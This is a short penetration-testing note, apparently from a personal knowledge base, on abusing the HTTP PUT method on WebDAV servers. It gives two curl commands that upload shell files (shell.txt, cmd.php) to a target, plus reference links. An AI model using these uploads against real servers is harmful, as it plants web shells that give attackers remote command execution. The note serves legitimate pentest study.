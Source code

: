# Manual

```
$ curl -T 'shell.txt' http[s]://<IP>

$ curl -T cmd.php http://<IP>/webdav_test_inception/cmd.php --user webdav_tester:<password> -vvv
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/HTTP/03 - Detecting HTTP Methods/Manual|HTTP Methods Enumeration: Manual]]

- [[02 - PUT Upload]]

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav)

- [Hacking Articles: Multiple Ways to Exploiting PUT Method](https://www.hackingarticles.in/multiple-ways-to-exploiting-put-method/)